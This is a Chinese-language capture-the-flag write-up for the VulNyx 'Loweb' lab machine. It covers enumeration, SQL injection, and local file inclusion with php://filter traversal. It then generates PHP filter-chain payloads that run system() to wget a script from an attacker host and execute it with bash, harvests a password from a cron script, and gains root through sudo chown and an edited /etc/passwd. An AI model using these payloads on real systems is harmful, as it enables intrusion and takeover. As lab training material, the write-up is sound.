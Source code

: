 ```yaml
---
title: "VulNyx-Loweb"
date: 2025-03-17
categories: 
  - "vulnyx"
tags: 
  - "linux"
  - "vulnyx"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Low |

## Nmap

```
[root@kali] /home/kali/Loweb  
❯ nmap 192.168.56.122 -sV -A  -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 65:bb:ae:ef:71:d4:b5:c5:8f:e7:ee:dc:0b:27:46:c2 (ECDSA)
|_  256 ea:c8:da:c8:92:71:d8:8e:08:47:c0:66:e0:57:46:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
```

## Gobuster

```
[root@kali] /home/kali/Loweb  
❯ gobuster dir -u http://192.168.56.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt             
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/library              (Status: 301) [Size: 318] [--> http://192.168.56.122/library/]
/server-status        (Status: 403) [Size: 279]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

[root@kali] /home/kali/Loweb  
❯ gobuster dir -u http://192.168.56.122/library -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.122/library
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 1068]
/login                (Status: 301) [Size: 324] [--> http://192.168.56.122/library/login/]
/admin                (Status: 301) [Size: 324] [--> http://192.168.56.122/library/admin/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

进入登录页面，用户名处存在**SQL注入**

![](./images/image-267.png)

![](./images/image-268.png)

## LFI

注意到**URL**中有一个**lang**参数，尝试进行文件包含

![](./images/image-269.png)

存在**r3dh4ck**用户，查看一下源码

```
http://192.168.56.122/library/admin/index.php?lang=php://filter/convert.base64-encode/resource=../../../../../var/www/html/library/admin/index.php
```

![](./images/image-270.png)

可以直接使用**php filter chains**攻击

- [synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator)

注意！！！！！

这里**URL**不能太长了，要尽量缩短命令的长度。

```
[root@kali] /home/kali/Loweb/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?= system("wget 192.168.56.118/s");?>' 

[root@kali] /home/kali/Loweb/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?= system("bash s");?>' 
```

![](./images/image-271.png)

## Own r3dh4ck

查看**linpeas**，发现存在**r3dh4ck**的定时任务

![](./images/image-272.png)

查看**/opt/monitor.sh**

```
#!/bin/bash

LOGDIR="/var/log/monitor"
LOGFILE="$LOGDIR/system_monitor_$(date +%Y%m%d%H%M%S).log"

mkdir -p $LOGDIR

echo "=== Monitoring started: $(date) ===" >> $LOGFILE

echo ">> Open ports and associated processes:" >> $LOGFILE
ss -tulpn | grep LISTEN >> $LOGFILE 2>/dev/null

echo -e "\n>> Currently connected users:" >> $LOGFILE
who >> $LOGFILE

echo -e "\n>> System information:" >> $LOGFILE
echo "Hostname: $(hostname)" >> $LOGFILE
echo "Kernel version: $(uname -r)" >> $LOGFILE
echo "Uptime: $(uptime -p)" >> $LOGFILE

echo -e "\n>> Generating simulated credentials for audit:" >> $LOGFILE
SECRET_USER="r3dh4ck"
SECRET_PASS="contraseñaconÑjeje" # Change this password for the future
echo "User: SECRET_USER" >> $LOGFILE
echo "Password: SECRET_PASS" >> $LOGFILE

echo -e "\n>> Possible suspicious processes running:" >> $LOGFILE
ps aux | grep -i 'nc\|netcat\|ncat\|bash\|sh' | grep -v grep >> $LOGFILE

echo -e "\n=== Monitoring finished: $(date) ===" >> $LOGFILE
```

刚好在里面发现了密码：**contraseñaconÑjeje**

但是不能读取**user.txt**

![](./images/image-273.png)

查看特殊权限命令，可以利用**chown**

```
r3dh4ck@loweb:~$ sudo -l
Matching Defaults entries for r3dh4ck on loweb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User r3dh4ck may run the following commands on loweb:
    (ALL) NOPASSWD: /usr/bin/chown
```

![](./images/image-274.png)

## Root

可以直接读取

![](./images/image-276.png)

和这篇文章类似的👇，可以修改**/etc/passwd**添加一个**root**组用户

- [Dockerlabs-r00tless - HYH](https://www.hyhforever.top/dockerlabs-r00tless/)

![](./images/image-277.png)

## Summary

`User`：任意文件包含，通过**filterchains**拿到**www-data**，在定时任务中得到用户密码。

`Root`：由于特殊权限的命令是**chown**，这个命令几乎可以查看任何文件，因此就显得十分简单。可以修改**/etc/passwd**的用户列表，添加一个**root**组用户。
